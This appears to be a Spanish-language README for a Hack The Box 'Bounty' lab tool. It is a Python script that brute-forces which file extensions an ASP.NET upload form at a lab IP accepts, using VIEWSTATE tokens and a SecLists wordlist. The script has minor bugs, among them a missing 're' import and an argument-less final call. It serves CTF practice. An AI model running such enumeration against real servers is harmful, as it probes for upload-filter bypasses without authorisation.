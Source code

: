 # HTB Bounty - Numeracion de extesniones.

Este exploit se utiliza para númerar las extensiones que interpreta un sistema. El programa este ha sido crado para
la máquina Bounty de Hack The Box. Utilizando un diccionario de extensiones las comprueba todas reportandonos cuales
podemos utilzar.

´´´´´´
#!/usr/bin/python3

from pwn import *
import signal, time, pdb, sys, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

# Variabls globales
transfer_url = "http://10.10.10.93/transfer.aspx"
burp = {'http': 'http://127.0.0.1.:8080'}

def uploadFile(extension):

    s = requests.session()
    r = s.get(transfer_url)

    viewState = re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0]
    eventValidation = re.findall(r'id="__EVENTVALIDATION" value="(.*?)"', r.text)[0]

    post_data = {
         '__VIEWSTATE': viewState,
         '__EVENTVALIDATION': eventValidation,
         'btnUpload': 'Upload'
    }

    fileUploaded = {'FileUpload1': ('Prueba%s' % extension, 'Esto es una prueba')}

    r = s.post(transfer_url, data=post_data, files=fileUploaded)

    if "Invalid File. Please try again" not in r.text:
        log.info("La extensión %s es valida" % extension)

if __name__ == '__main__':

    f = open("/usr/share/seclists/Discovery/Web-Content/raft-medium-extensions.txt","rb")

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    for extension in f.readlines():
        extension = extension.decode().strip()
        p1.status("Probando con la extensión %s" % extension)
        uploadFile(extension)

    uploadFile()

``````

